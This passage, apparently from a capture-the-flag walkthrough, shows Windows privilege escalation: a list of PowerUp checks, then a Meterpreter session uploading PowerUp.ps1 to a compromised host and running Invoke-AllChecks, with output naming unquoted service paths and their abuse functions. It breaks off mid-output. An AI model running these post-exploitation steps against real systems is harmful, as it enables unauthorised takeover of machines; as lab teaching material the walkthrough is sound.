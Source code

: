 - if you are an admin in a medium integrity process (exploitable with bypassuac)
- for any unquoted service path issues
- for any services with misconfigured ACLs (exploitable with service\_\*)
- any improper permissions on service executables (exploitable with service*exe*\*)
- for any leftover unattend.xml files
- if the AlwaysInstallElevated registry key is set
- if any Autologon credentials are left in the registry
- for any encrypted web.config strings and application pool passwords
- for any %PATH% .DLL hijacking opportunities (exploitable with write_dllhijacker)

Download the script locally and use the upload command in Metasploit to upload the script to the target.
To execute this using Meterpreter, I will type `load powershell` into meterpreter. Then I will enter powershell by entering `powershell_shell`:

```bash
meterpreter > upload /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1  ./
[*] uploading  : /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 -> ./
[*] uploaded   : /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 -> ./\PowerUp.ps1
meterpreter > load powershell

Loading extension powershell...Success.
meterpreter > powershell_shell
PS > dir


    Directory: C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
d----         1/15/2022   9:29 AM            %TEMP%
-a---         2/16/2014  12:58 PM     760320 hfs.exe
-a---         1/15/2022  10:33 AM     495329 PowerUp.ps1


PS > . .\PowerUp.ps1
PS > Invoke-AllChecks

[*] Running Invoke-AllChecks


[*] Checking if user is in a local group with administrative privileges...


[*] Checking for unquoted service paths...


ServiceName   : AdvancedSystemCareService9
Path          : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'AdvancedSystemCareService9' -Path <HijackPath>

ServiceName   : AWSLiteAgent
Path          : C:\Program Files\Amazon\XenTools\LiteAgent.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'AWSLiteAgent' -Path <HijackPath>

ServiceName   : IObitUnSvr
Path          : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'IObitUnSvr' -Path <HijackPath>

ServiceName   : LiveUpdateSvc
Path          : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
```
